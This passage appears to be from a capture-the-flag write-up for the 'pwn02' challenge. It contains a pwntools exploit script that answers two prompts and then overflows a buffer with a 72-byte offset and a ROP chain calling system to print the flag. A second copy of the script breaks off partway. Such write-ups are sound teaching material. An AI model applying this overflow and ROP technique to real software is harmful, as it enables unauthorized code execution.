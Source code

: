 Running this exploit prints "Do you want the flag?" and asks for the vulnerable input!
Alright now we can get to the interesting part, building our payload and exploiting the buffer overflow.

```py
#!/usr/bin/env python3

from pwn import *

context.binary = elf = ELF('./src/pwn02')
context.arch = 'amd64'
context.endian = 'little'
context.log_level = 'error'

if args.REMOTE:
    io = remote("pwn02.ctf.teamquark.com", 65302)
else:
    io = elf.process()

io.recvuntil(b"?\n")
io.sendline(b'elliot') # Send first answer

io.recvuntil(b"?\n")
io.sendline(b'Darlene Alderson') # Send second answer

io.recvuntil(b"?\n") # Jump to the vulnerable input

offset = 72
cat_cmd = 0x402069
pop_rdi = 0x40146b
system_call = 0x4011cf

payload = b''.join([
    b'A'*offset,
    pack(pop_rdi),
    pack(cat_cmd),
    pack(system_call)
])

io.sendline(payload) # Run the payload
io.interactive()
io.close()
```

Running this script on the remote prints us the flag !
Now let's clean it up a bit.

```py
#!/usr/bin/env python3

from pwn import *

context.binary = elf = ELF('./src/pwn02')
context.arch = 'amd64'
context.endian = 'little'
context.log_level = 'error'

if args.REMOTE:
    io = remote("pwn02.ctf.teamquark.com", 65302)
else:
    io = elf.process()

io.recvuntil(b"?\n")
io.sendline(b'elliot') # Send first answer

```
